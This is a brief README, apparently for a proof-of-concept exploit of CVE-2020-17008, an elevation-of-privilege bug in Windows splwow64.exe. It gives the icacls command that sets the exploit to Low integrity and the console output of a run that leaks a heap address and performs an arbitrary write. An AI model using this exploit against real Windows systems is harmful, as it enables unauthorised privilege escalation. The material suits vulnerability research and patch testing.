

# CVE-2020-17008 splWOW64 Elevation of Privilege

`C:\Windows\splwow64.exe`

Poc From:

https://bugs.chromium.org/p/project-zero/issues/detail?id=2096


## 0x01 set splwow64_poc.exe `Low`

`cd splwow64_poc\x64\Release`

`icacls splwow64_poc.exe /setintegritylevel L`


```
 /setintegritylevel [(CI)(OI)]级别将完整性 ACE 显式
        添加到所有匹配文件。要指定的级别为以下级别
        之一:
             L[ow]
             M[edium]
             H[igh]
        完整性 ACE 的继承选项可以优先于级别，但只应用于
        目录。
```

## 0x02 run `splwow64_poc.exe`




```
splwow64_poc\x64\Release>splwow64_poc.exe

Start
ntdll = 0x7FF837980000
Init done
C:\Users\pwned\Desktop\splwow64_poc\x64\Release
C:\Users\pwned\Desktop\splwow64_poc\x64\Release\CreateDC.exe
Now's the time to hook up the debugger to splwow64.exe if you want to. Press [Enter] to continue . . .
Get port name
name: \RPC Control\UmpdProxy_2_bea57_0_2000
Create port.
Prepare 0x6A Message - OpenPrinter
PtrMsgReply: 0x0000000000AB0140
ClientView: 0x0000027F390B0000/0x0000000000AB0000, 0x0000027F390B0100: Microsoft XPS Document Writer
Writing message 0x6A success!
Cookie: 0x0
Preparing 0x6D message (to leak heap address) - DocumentEvent
Output: 0x0000000000000000, Heap Address: 0xFFFFFFFFFFFFFFC0
Preparing 0x6D message (write to 0x41414141) - DocumentEvent
Done
```
